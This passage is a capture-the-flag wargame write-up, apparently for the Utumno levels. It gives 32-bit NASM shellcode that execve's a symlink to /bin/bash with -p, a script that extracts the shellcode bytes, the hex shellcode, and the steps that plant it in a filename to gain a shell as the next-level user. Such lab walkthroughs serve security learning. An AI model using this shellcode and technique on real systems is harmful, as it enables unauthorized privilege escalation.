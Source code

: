 ```nasm
        push eax                ; null terminator
        push word 0x702d        ; move "-p" into cx
        mov ecx, esp            ; move pointer to "-p" into ecx

        push eax                ; null terminator
        push ecx                ; push pointer to "-p"
        push ebx                ; push pointer to "code"
        mov ecx, esp            ; move pointer to {"code", "-p"} into ecx

        mov al, 0xb             ; move "0xb" into al (execve)
        int 0x80                ; call execve
```

#### compile.sh
```bash
#!/bin/bash

nasm -f elf -o shell.o shell.asm
ld -m elf_i386 -o shell shell.o

echo -e "SHELLCODE:\n"
printf '\\x' && objdump -d shell | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

```bash
utumno1@utumno:/tmp/tasks/utumno1$ ./compile.sh
SHELLCODE:

\x31\xc9\xf7\xe1\x50\x68\x63\x6f\x64\x65\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80
```

Once the assembly is compiled and linked, we need to create the *"code"* symlink.
```bash
ln -s /bin/bash ./code
```

The final step is to create the file starting with *"sh_"* followed by the shellcode.
```bash
touch sh_$(perl -e 'print "\x31\xc9\xf7\xe1\x50\x68\x63\x6f\x64\x65\x89\xe3\x50\x66\x68\x2d\x70\x89\xe1\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

### Exploit:
Finally, we can run the challenge binary and pass the directory of our **sh_{SHELLCODE}** file.

```bash
utumno1@utumno:/tmp/tasks/utumno1$ /utumno/utumno1 $(pwd)
code-5.2$ whoami
utumno2
```

---
---
## Utumno2 Solution:
**Username:** utumno2\
**Password:** [REDACTED]
